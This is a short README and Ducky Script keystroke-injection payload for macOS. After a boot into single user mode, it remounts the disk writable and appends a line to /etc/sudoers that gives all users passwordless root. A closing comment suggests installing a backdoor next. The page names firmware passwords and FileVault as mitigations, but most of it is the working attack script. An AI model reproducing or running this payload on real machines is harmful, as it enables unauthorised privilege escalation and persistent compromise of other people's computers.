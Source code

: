 **Author: Jesse Wallace ([@c0deous](https://twitter.com/c0deous))**
**[c0deo.us](https://c0deo.us/)**

This script adds a line into /etc/sudoers that enables sudo for ALL users **without requiring a password.**  Only requirement is a reboot into [single user mode](https://support.apple.com/en-us/HT201573).

**Mitigation**

Setup a [firmware password](https://support.apple.com/en-us/HT204455) or enable [FileVault](https://support.apple.com/en-us/HT204837) disk encryption.

This method was tested on macOS 10.12 but should work for all versions. (?)

```
REM MacOS AllSudo
REM Enables Sudo access for all users without a password
REM First boot the machine into single user mode - https://support.apple.com/en-us/HT201573
REM (You could probably script single user mode but I couldn't be bothered to play with the timings)
REM By Jesse Wallace (@c0deous)
REM https://c0deo.us/
DELAY 1000
STRING mount -uw / && chmod 755 /etc/sudoers && echo 'ALL    ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers && chmod 440 /etc/sudoers && shutdown -h now
ENTER
REM Now would be a great time to install a backdoor.  Ez root ;3
REM TODO Use visudo for edits (unconfirmed if working)